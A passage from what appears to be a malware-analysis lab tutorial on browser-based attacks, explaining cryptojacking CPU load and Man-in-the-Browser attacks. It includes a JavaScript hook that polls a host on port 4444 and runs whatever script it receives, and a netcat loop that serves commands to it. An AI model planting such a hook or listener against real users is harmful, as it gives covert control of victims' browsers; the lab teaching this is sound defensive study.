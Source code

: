 Check the Task Manager and verify that Google Chrome is at around 70-100% CPU:

![](images/JavaScript%20and%20Browser-based%20Malware/image016.png)<br><br>

Once you leave or refresh the page, the code stops running.


### Man in the Browser

A Man in the Browser (MitB) attack is when injected JavaScript establishes a communication channel and obtains persistence in the browser.  This allows an attacker to eavesdrop on browser operations, hijack GET and POST requests, and relay traffic intended for a legitimate server back to the attacker where requests and responses can be modified.  Additionally, the attacker can read and modify content within the current page without victim intervention while hidden from the user and the server. 

The following code hooks the browser by making a request every 5 seconds and executing any JavaScript commands it receives:

```javascript
setInterval(function hook(){d=document;z=d.createElement("script"); \
   z.src=`//${window.location.hostname}:4444`;d.body.appendChild(z);},5000);
```

To configure JSLab to receive the JavaScript shell, type the following:

```bash
while :;do printf "$ ";read c;echo $c | nc -lp 4444 > /dev/null;done
```

With REMux now listening on port 80, switch to the **Network** tab in DevTools and click the **Hook Browser** button.

You should see the browser making some failed requests to the remnux host.  

![](images/JavaScript%20and%20Browser-based%20Malware/image017.png)<br><br>
